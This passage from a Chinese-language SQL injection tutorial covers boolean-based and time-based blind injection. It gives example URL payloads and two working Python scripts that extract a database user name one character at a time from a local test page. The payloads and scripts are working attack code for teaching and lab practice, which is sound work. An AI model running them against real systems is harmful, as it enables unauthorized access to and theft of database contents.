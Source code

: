 *查数据库第一位是否是b:*
> 127.0.0.1/sql.php?id=1 and substr(database(),1,1)='b'

布尔盲注脚本：
```python
# /usr/bin/env python
# coding:utf-8
'''
bool-based-sql-injection
date: 2017/3/15
'''
import requests

# http://127.0.0.1/sql1.php?id=1 and ascii(substring(user(),1,1))=114
result = ''
for num in range(1, 18):
    for code in range(1, 128):
        url = 'http://127.0.0.1/sql1.php?id=1 and ascii(substring(user(),' + str(num) + ',1))=' + str(code)
        res = requests.get(url)
        if (res.text.find('sucess') != -1):
            result += chr(code)
            print result
```

## 基于时间
**要求**:能执行延时函数
### 基础
sleep(), benchmark() 两个延时函数
if(lala,true,false)
> ?id=1 union select if(substring(user(),1,1)='r',sleep(4),1),null,null
  ?id=1 and  if(substring(user(),1,1)='r',sleep(4),1)  

insert后的延时注入:
```
mysql> insert into users(name) values('123456' and if(true,sleep(5),0));
Query OK, 1 row affected, 3 warnings (5.01 sec)
```

延时注入脚本:
```python
#! /usr/bin/env python
# coding:utf-8
'''
time-based-sql-injection
date: 2017/3/15
'''
import requests, time

result = ''
for num in range(1, 18):
    for code in range(1, 128):
        url = 'http://127.0.0.1/sql1.php?id=1 and if(ascii(substring(user(),' + str(num) + ',1))=' + str(
        code) + ',sleep(3),0)'
        start_time = time.time()
        requests.get(url)
        if time.time() - start_time > 2:
            # print chr(code)
            result += chr(code)
print result
```
